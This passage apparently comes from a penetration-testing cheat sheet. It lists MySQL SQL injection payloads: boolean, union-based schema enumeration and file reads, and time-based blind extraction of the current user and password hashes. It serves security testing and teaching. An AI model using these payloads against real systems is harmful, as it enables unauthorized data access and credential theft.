 When encoded \\r refers to %0D and \\n refers to %0A.

<p id="xss"/>

### Cross-Site Scripting

Find out more about reflected and stored XSS attacks from my other [project](https://github.com/ivan-sincek/xss-catcher).

<p id="sql-injection"/>

### SQL Injection

Try to produce database errors by injecting a single-quote, back-slash, double-hyphen, forward-slash or period.

The following examples were tested on MySQL database.

Boolean-based SQLi:

```fundamental
' OR 1=1-- 
```

**Note that MySQL requires a space between the comment symbol and the next character.**

Union-based SQLi:

```fundamental
' UNION SELECT 1, 2, 3, 4-- 

' UNION SELECT 1, concat_ws(' | ', database(), current_user(), version()), 3, 4-- 

' UNION SELECT 1, concat_ws(' | ', table_schema, table_name, column_name, data_type, character_maximum_length), 3, 4 FROM information_schema.columns-- 

' UNION SELECT 1, load_file('..\\..\\apache\\conf\\httpd.conf'), 3, 4-- 
```

Use the union-based SQLi only when you are able to use the same communication channel to both launch the attack and gather results.

The goal is to determine the exact number of columns in the application query and to figure out which of them are displaying to the user.

Time-based SQLi:

```fundamental
' AND (SELECT 1 FROM (SELECT sleep(2)) test)-- 

' AND (SELECT 1 FROM (SELECT CASE current_user() WHEN 'root@localhost' THEN sleep(2) ELSE sleep(0) END) test)-- 

' AND (SELECT 1 FROM (SELECT CASE substring(current_user(), 1, 1) WHEN 'r' THEN sleep(2) ELSE sleep(0) END) test)-- 

' AND (SELECT CASE substring(password, 1, 1) WHEN '$' THEN sleep(2) ELSE sleep(0) END FROM schema.users WHERE id = 1)-- 
```
